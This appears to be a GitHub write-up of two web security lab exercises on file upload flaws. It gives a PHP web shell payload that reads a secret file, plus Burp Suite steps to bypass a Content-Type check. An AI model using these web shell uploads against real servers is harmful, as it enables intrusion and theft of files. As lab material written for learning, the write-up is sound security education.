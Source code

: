 # Lab-1: Remote code execution via web shell upload

```php

PAYLOAD: <?php echo file_get_contents('/home/carlos/secret'); ?>

```




![FILE-UPLOAD-VULNERABILITY-LAB-1-RCE-VIA-UPLOAD](https://user-images.githubusercontent.com/98345027/183827329-e98be45c-e763-4e30-85a1-565d42ba9df3.png)



# Lab-2: Web shell upload via Content-Type restriction bypass

```php
PAYLOAD: <?php echo file_get_contents('/home/carlos/secret'); ?>
STEPS
1.FIRST UPLOAD THE SCRIPT(EXAMPLE: SCRIPT.php) AND THEN GO TO PROXY-->HTTP HISTORY FROM THERE SELECT THE 'POST' REQUEST AND SEND IT TO REPEATER OVER THERE CHANGE THE "Content-Type" to "image/jpeg" inorder to bypass file type and then "send" the request .
2.IN THE "RESPONSE" SECTION IT SHOWS MESSAGE THAT THE FILE UPLOAD SUCCESSFULLY "
3.NOW TO RUN THE SCRIPT GO TO PROXY--->HTTP-HISTORY SELECT THE "GET" REQUEST AND ACCESS THE SCRIPT "/images/avtar/newsccript.php' and send the request
4.In "REPONSE SECTION " IT WILL SHOW THE SECRET MESSAGE "
```
```TEXT
ACTUAL FLAW: OVER HERE Content-Type header,  tells the server the MIME type of the data that was submitted using this input. (FOR-EXAMPLE WHETHER THE FILE SUBMITTED OVER HERE ARE IMAGE OR NOT)
BYPASS: SO WE CANGE THE CONTENT-TYPE AND THE SERVER DOESN'T VALIDATE THAT FILE THAT WAS UPLOADED WAS IMAGE FILE OR SOMETHING ELSE
```


![FILE-UPLOAD-VULNERABILITY-LAB-2](https://user-images.githubusercontent.com/98345027/183828255-7d93e239-5e5c-4515-a179-db7138a29a06.png)
![FILE-UPLOAD-VULNERABILITY-LAB-2-1](https://user-images.githubusercontent.com/98345027/183828268-a9c4bf5d-c944-4e9b-b3bd-68fae2cf184b.png)
